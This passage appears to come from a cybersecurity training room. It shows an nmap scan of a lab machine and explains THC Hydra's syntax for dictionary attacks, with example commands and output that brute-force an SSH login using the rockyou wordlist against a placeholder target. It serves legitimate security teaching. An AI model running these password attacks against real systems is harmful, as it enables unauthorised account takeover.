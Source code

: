 ```shell-session
root@AttackBox# nmap -sS MACHINE_IP
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-16 11:57 EET
Nmap scan report for MACHINE_IP
Host is up (0.081s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 2.28 seconds
```

We want an automated way to try the common passwords or the entries from a word list; here comes [THC Hydra](https://github.com/vanhauser-thc/thc-hydra). Hydra supports many protocols, including SSH, VNC, [[FTP]], POP3, IMAP, SMTP, and all methods related to HTTP. You can learn more about THC Hydra by joining the [Hydra](https://tryhackme.com/room/hydra) room. The general command-line syntax is the following:

`hydra -l username -P wordlist.txt server service` where we specify the following options:

-   `-l username`: `-l` should precede the `username`, i.e. the login name of the target. You should omit this option if the service does not use a username.
-   `-P wordlist.txt`: `-P` precedes the `wordlist.txt` file, which contains the list of passwords you want to try with the provided username.
-   `server` is the hostname or IP address of the target server.
-   `service` indicates the service in which you are trying to launch the dictionary attack.

Consider the following concrete examples:

-   `hydra -l mark -P /usr/share/wordlists/rockyou.txt MACHINE_IP ssh` will use `mark` as the username as it iterates over the provided passwords against the SSH server.
-   `hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP` is identical to the previous example. `MACHINE_IP ssh` is the same as `ssh://MACHINE_IP`.

You can replace `ssh` with another protocol name, such as `rdp`, `vnc`, `ftp`, `pop3` or any other protocol supported by Hydra.

There are some extra optional arguments that you can add:

-   `-V` or `-vV`, for verbose, makes Hydra show the username and password combinations being tried. This verbosity is very convenient to see the progress, especially if you still need to be more confident in your command-line syntax.
-   `-d`, for debugging, provides more detailed information about what’s happening. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, `-d` will reveal this immediately.

In the terminal window below, we use Hydra to find the password of the username `alexander` that allows access via SSH.

AttackBox Terminal

```shell-session
root@AttackBox# hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-15 13:39:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://MACHINE_IP:22/
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
```